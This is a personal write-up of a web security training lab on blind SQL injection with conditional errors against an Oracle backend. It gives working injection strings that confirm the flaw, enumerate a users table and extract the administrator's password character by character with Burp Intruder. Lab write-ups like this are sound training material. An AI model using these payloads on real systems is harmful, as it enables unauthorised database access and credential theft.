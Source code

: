 
### Blind SQL injection with conditional errors : PRACTITIONER

---

> Test that the cookie is vulnerable.
> Try adding `'`, we get an error. This implies that there is a vulnerability.
> Try closing `''`, and it works normally. This is implies there is a vulnerability, but we need to ensure that the SQL code is indeed interpreted.

> Try inputting a query that is correct, so if it works, we know that our SQL statements are interpreted.
```
rA16s0b3PCRhyQB4' AND (SELECT '')='' --
rA16s0b3PCRhyQB4' || (SELECT '') || ' --
```
> This query is correct, but its also causing an error. Might be oracle dbms, so try adding the `FROM DUAL` after the select.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM DUAL)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM DUAL) || ' --
``` 
> The page responds normally, meaning that it is an oracle dbms, and that our sql code was interpreted.

> We now are sure that it is vulnerable, as both a wrong and correct query where inputted, and they were interpreted. The wrong one was without the `FROM DUAL` clause.

> We now want to check if there is a users table.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM users)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM users) || ' --
```
> It works. If it hadn't worked, we shouldv'e tried adding `WHERE ROWNUM=1` so as not to break our query if the users table has more than 1 row. 
> Cannot use the `LIMIT 1` syntax as it is not supported by oracle.

> Now we check for the presence of the administrator user.
```
rA16s0b3PCRhyQB4' AND (SELECT username FROM users WHERE username='administrator' )='administrator' --

rA16s0b3PCRhyQB4' || (SELECT username FROM users WHERE username='administrator' )|| ' --
```
> It works, so i tried checking for different usernames and they all worked. So i should try using conditional errors to check for the presence of the administrator.

> For an easier expression, use string concatenation instead of equality checks.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' --
```
> This returns an error, meaning that the 'administrator' user exists. To elaborate, try a wrong user, such as `asfas`. The query will work normally, because the FROM part is not correct, and hence the select case portion won't run.
> Our blind injection works through error conditioning. We allow the error condition to happen once something that we desire is true. In our case, we desired the 'administrator' user to exist. If it exists, we trigger an error, signalling us that what we desire occurs.

> Now we need to enumerate the password of the admin user.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > 20) || ' --
```
> Keep trying, or use the BURPSUITE INTRUDER spider tool to change the length until we don't get an error. Again, if we get an error, this means we are on the right path.
> Our password has length of 20, now to enumerate all its characters, use the BURPSUITE INTRUDER clusterbomb tool to change both the index and character.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1) = 'a') || ' --
```

> Let the indices be from 1 to 20.
> Let the characters be from a-z and 0-9

> As [[LAB 12]], conduct the attack and watch for the different response sizes or status codes. See the size corresponding to errors and use those to obtain results. Use status code 500 representing errors to obtain results.

1 - 7
2 - s
3 - s
4 - j
5 - u
6 - 0
7 - m
8 - y
9 - z
10 - 3
11 - h
12 - g
13 - q
14 - x
15 - 1
16 - q
17 - 0
18 - i
19 - l
20 - l

> Assemble password and login to complete lab.
---
